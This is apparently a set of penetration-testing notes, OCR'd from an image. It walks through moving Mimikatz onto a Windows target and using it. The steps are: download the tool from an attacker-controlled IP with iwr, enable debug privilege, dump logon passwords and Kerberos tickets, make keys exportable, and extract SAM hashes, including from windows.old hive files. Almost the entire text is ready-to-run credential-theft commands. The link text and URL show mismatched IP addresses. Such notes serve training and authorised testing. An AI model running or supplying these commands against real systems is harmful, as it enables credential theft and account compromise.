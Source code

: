 
# Move Mimikatz to target

```
iwr [http://192.168.45.164/mimikatz.exe](http://192.168.45.180/mimikatz.exe) -Outfile C:\windows\temp\mimikatz.exe
cd C:\windows\temp
```

# Load mimikatz

```
.\mimikatz.exe
```

# Engage SeDebugPrivilege Privilege to interact with a process owned by another account

```
privilege::debug
```

# Dump Credentials

```
sekurlsa::logonpasswords
```

# Find tickets stored in memory

```
sekurlsa::tickets
```

# Make non-exportable keys, exportable by patching the CryptoAPI function

```
crypto::capi

crypto::cng
```

# grab sam hashes

```
token::elevate

lsadump::sam
```

# find location of sam and system and use that

```
lsadump::sam /system:C:\windows.old\windows\system32\system /sam:C:\windows.old\windows\system32\sam
```